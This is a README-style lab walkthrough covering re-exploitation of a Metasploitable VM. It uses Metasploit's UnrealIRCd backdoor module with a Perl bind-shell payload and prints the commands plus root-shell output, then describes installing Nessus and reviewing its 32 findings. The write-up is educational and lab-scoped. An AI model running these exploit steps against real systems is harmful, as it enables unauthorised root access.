








# UnrealIRCd Exploitation & Nessus Vulnerability Scan

A continuation of the Metasploitable exploitation lab — the target VM's IP address changed (likely due to a reboot/DHCP renewal), was re-confirmed via nmap, successfully re-exploited via UnrealIRCd's backdoor, and then cross-validated with a full **Nessus** vulnerability scan.

> ⚠️ **Disclaimer:** All targets in this walkthrough are lab/practice machines. Never run these exploits, scans, or techniques against systems you don't own or don't have explicit written authorization to test.

---

## 1. Re-confirming the Target Service

After the original target IP (`192.168.22.201`) stopped responding, the box was found to have moved to `192.168.1.61` on the network (consistent with a VM reboot picking up a new DHCP lease). An `nmap` scan against the new address confirms UnrealIRCd is still running on port 6667:

```bash
nmap -sV -p 6667 192.168.1.61
```



**Result:** `6667/tcp open irc UnrealIRCd`, hostname resolving to `irc.Metasploitable.LAN` — same host, new address, confirming the earlier "unreachable"/"timeout" exploit errors were simply due to targeting the stale IP.

---

## 2. Re-running the Exploit Against the Correct IP

With the RHOSTS value corrected to `192.168.1.61`, the same bind-shell approach from earlier in this series worked immediately:

```
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOSTS 192.168.1.61
set RPORT 6667
set PAYLOAD cmd/unix/bind_perl
set LPORT 4445
run
```



**Result — shell session opened, root confirmed:**

```
[*] Started bind TCP handler against 192.168.1.61:4445
[*] Command shell session 1 opened (192.168.1.53:42621 -> 192.168.1.61:4445)
whoami
root
uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
```

**Key takeaway:** the exploit, payload, and bind-shell strategy were correct all along — the only issue was a stale target IP left over from before the VM's address changed. Always re-verify `RHOSTS` with a fresh scan whenever a previously-working exploit suddenly reports unreachable/timeout errors.

---

## 3. Installing Nessus for Full Vulnerability Assessment

To validate findings with a dedicated vulnerability scanner, **Nessus Essentials** was installed from a downloaded `.deb` package, with integrity verified via SHA-256 checksum before installation:

```bash
cd Downloads
sha256sum -c sha256sum_nessus
```



**Result:** `Nessus-10.12.3-ubuntu1604_amd64.deb: OK` — confirms the downloaded package hasn't been tampered with before installing it with elevated privileges.

---

## 4. Configuring the Scan Target

Nessus Essentials prompts for a discovery/scan target on first run:



**Target entered:** `192.168.1.61` — the same freshly-confirmed Metasploitable IP.

---

## 5. Scan Configuration — Full Port Range

The scan type is set to a full **port scan (all ports)**, covering the complete 1–65535 range rather than just common ports, using SYN scanning and multiple host-discovery methods (TCP, ARP, ICMP):



This ensures nothing is missed — including the non-standard ports Metasploitable exposes (e.g. `1524` bindshell, `6667` IRC), which a default "common ports" scan might skip.

---

## 6. Keeping Nessus Plugins Up to Date

Before scanning, plugins were refreshed both via the web UI:



...and via the command line, for a fully offline/manual refresh:

```bash
sudo /opt/nessus/sbin/nessuscli update --plugins-only
```



**Why this matters:** Nessus's detection accuracy depends entirely on how current its plugin feed is — outdated plugins would miss newly-disclosed CVEs or misreport severity, so this step should always precede a scan intended for real findings.

---

## 7. Scan Results — Full Vulnerability Report

The completed scan against `192.168.1.61` returned **32 vulnerabilities**, directly corroborating the manual exploitation work done earlier:



**Notable findings:**

| Severity | CVSS | Finding | Correlates With |
|----------|------|---------|------------------|
| Critical | 10.0 | **UnrealIRCd Backdoor Detection** | The exact vulnerability manually exploited above |
| Critical | 10.0 | **VNC Server 'password' Password** | Default/weak VNC credential — not yet exploited in this series |
| Critical | 9.8 | **Bind Shell Backdoor Detection** | Corresponds to the port 1524 root bindshell noted in earlier nmap scans |
| High | 7.5 | rsh Service Detection | Consistent with `512/tcp exec`, `513/tcp login` seen in earlier nmap output |
| High | 7.5 | Samba Badlock Vulnerability | Additional SMB-layer weakness not yet explored |
| Mixed | — | DNS, HTTP, Apache Tomcat, SMB (multiple issues) | Broader attack surface across the same services enumerated manually |

This is a good demonstration of how **automated vulnerability scanning validates and extends manual findings** — Nessus independently flagged the exact backdoor already exploited by hand, while also surfacing additional critical issues (VNC weak password, generic bind shell backdoor, Samba Badlock) that weren't yet targeted manually.

---

## Summary Table

| Step | Action | Outcome |
|------|--------|---------|
| 1 | Re-scan target with nmap | Confirmed UnrealIRCd still running, just on a new IP |
| 2 | Re-run exploit with corrected RHOSTS | Root shell obtained via bind_perl payload |
| 3 | Verify & install Nessus | Checksum-validated install completed |
| 4 | Configure scan target | `192.168.1.61` set as scan target |
| 5 | Configure full port range scan | All 65535 ports included |
| 6 | Update Nessus plugins | Plugin feed refreshed via CLI and UI |
| 7 | Run scan & review report | 32 vulnerabilities found, including the manually-exploited UnrealIRCd backdoor |

## Lessons Learned

1. **A previously-working exploit suddenly failing with "unreachable" or "timeout" is a networking symptom, not necessarily an exploit problem.** Re-scan and re-confirm the target's current IP before troubleshooting the module itself.
2. **Manual exploitation and automated scanning validate each other.** Nessus independently confirmed the exact backdoor already exploited by hand, adding confidence to both approaches.
3. **Always verify installer integrity** (SHA-256 checksum) before installing security tooling with root privileges, especially downloaded `.deb`/binary packages.
4. **Keep vulnerability scanner plugins current** before relying on scan results — stale plugin feeds can miss recent CVEs entirely.
5. **A single Metasploitable target has a very deep attack surface** — this scan alone surfaced 32 findings, several of which (VNC weak password, Samba Badlock) haven't even been explored yet in this series.

## Repo Structure

All images live in the **same directory** as this README:

```
.
├── README.md
├── 1786720400853_check-irc-service.png
├── 1786720400854_exploit-irc.png
├── 1786720400854_install-nessus.png
├── 1786720400855_scan-all-ports.png
├── 1786720400856_scan-report.png
├── 1786720400856_select-target.png
├── 1786720400856_update-plugins.png
└── 1786720400857_update-plugins-1.png
```
